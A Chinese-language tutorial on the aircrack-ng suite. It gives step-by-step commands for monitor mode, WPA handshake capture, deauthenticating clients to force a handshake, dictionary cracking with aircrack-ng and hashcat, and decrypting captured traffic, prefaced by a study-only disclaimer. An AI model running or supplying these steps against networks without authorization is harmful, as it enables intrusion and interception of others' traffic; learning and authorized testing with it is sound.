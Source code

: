 # Aircrack

<p align="center">
    <img src="../../../assets/img/logo/aircrack-ng.jpg" width="25%">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**简介**

aircrack 是一个比较出名的用于破解 WEP 和 WPA 加密的无线网络的一款工具，由 6 个不同的部分组成：
1. aircrack-ng 用于破解 WEP 以及 WPA-PSK 密钥。一旦 aircrack-ng 工具收集了足够的信息，aircrack-ng 将会分析这些数据，并试图确定使用中的密钥。
2. airdecap-ng 解读被破解的网络数据包
3. airmon-ng 为使用整个 aircrack-ng 套件配置一个网卡
4. aireplay-ng 在无线网络中产生可能在恢复中的 WEP 密钥所需的流量
5. airodump-ng 捕获被 aircrack-ng 用于破解 WEP 密钥的 802.11 帧
6. tools 为微调提供分类工具箱

**文章**
- [记一次曲折的WIFI测试之路](https://www.secpulse.com/archives/96964.html)

---

**配置无线网卡**

- WM Ware(开机后)

    虚拟机->可移动设备->Ralink 802.11 n Wlan(显卡型号)->连接(断开与主机的连接)

- VBox

    虚拟机关机状态下->将设备插入主机->设置->USB 设备->添加->删除除了供应商标识(VendorID)和产品标识(ProductID)之外的参数->开机->插入设备

- 验证是否连接成功

    ```bash
    lsusb
    airmon-ng
    ifconfig
    iwconfig
    ```
    出现无线网卡型号即为成功

**无线基础命令**

```bash
iwlist      # 用于对 /proc/net/wireless 文件进行分析,得出无线网卡相关信息
    iwlist wlan0 scanning | grep "ESSID"    # 查看当前所有的 AP 名

iwconfig
    iwconfig wlan0 scanning                 # 扫描无线接入点
    iwconfig wlan0 nickname hacking         # 添加别名
```

---

# 例子

以无线网卡名为 wlan0 举例

```bash
airmon-ng start wlan0   # 启动网卡监听模式
airmon-ng check kill    # 关闭干扰程序

airodump-ng wlan0mon    # 开启抓包,获取附件无线网络
```

| 列名                                        | 含义
|-------------------------------------------|-------------------------
|BSSID(Basic Service SetIdentifier)         |AP 的 MAC 地址
|PWR(Power)                                 | 信号强度
|Beacons                                    |AP 发出的通告编号, 每个接入点 (AP) 在最低速率 (1M) 时差不多每秒会发送 10 个左右的 beacon, 所以它们能在很远的地方就被发现
|Data                                      | 当前数据传输量
|/s                                        | 过去 10 秒钟内每秒捕获数据分组的数量
|CH(Channel)                                |AP 所在的频道
|MB                                         |AP 的最大传输速度; MB=11 => 802.11b,MB=22 => 802.11b+, MB>22 => 802.11g; 后面带. 的表示短封包标头, 处理速度快, 更利于破解
|ENC(Encryption)                            | 使用的加密算法体系
|CIPHER                                     | 检测到的加密算法
|AUTH(Authority)                            | 认证方式
|ESSID(The Extended Service Set Identifier) |AP 的名称

```bash
airodump-ng -c 6 --bssid E0:24:81:AF:F3:A8 -w wireless wlan0mon     # 指定特定的wifi抓握手包,出现 handshake 则抓包成功
# -c 指定信道,上面已经标记目标热点的信道(CH)
# -bssid 指定目标路由器的BSSID,就是上面标记的BSSID
# -w 指定抓取的数据包保存的目录

aircrack-ng -a2 -b E0:24:81:AF:F3:A8 -w pass.txt wireless-01.cap    # 跑包
```

**使用 hashcat 爆破(只能跑 WPA/WPA2/PSK 加密的)**

用 aircrack-ng 把 cap 转换成 hccap 类型数据包(会自动添加后缀名 .hccap)

```bash
aircrack-ng wireless-01.cap -J wireless
```

```bash
hashcat -m 2500 wireless.hccap pass.txt --force                     # 用hashcat破解WPA/PSK密码
```

若是提示"Old hccap format detected! You need to update"可以将第一步的命令改为
```bash
aircrack-ng wireless-01.cap -j wireless
```

**Deauthentication**

注意如果抓不到握手包把对方踢下线,这样就会抓包成功

```bash
aireplay-ng -0 10 -a <无线路由器的MAC地址> -c <连接上的设备MAC地址> wlan0mon
# -0 冲突攻击模式，后面跟发送次数，一般使用这个模式即可。
# -a 无线网 mac 地址
# -c 连接上的客户端 mac 地址，就是那个 STATION
```

**流量解密**

```bash
airdecap-ng -e [SSID name] -p [Wifi pass] xxx.cap
```
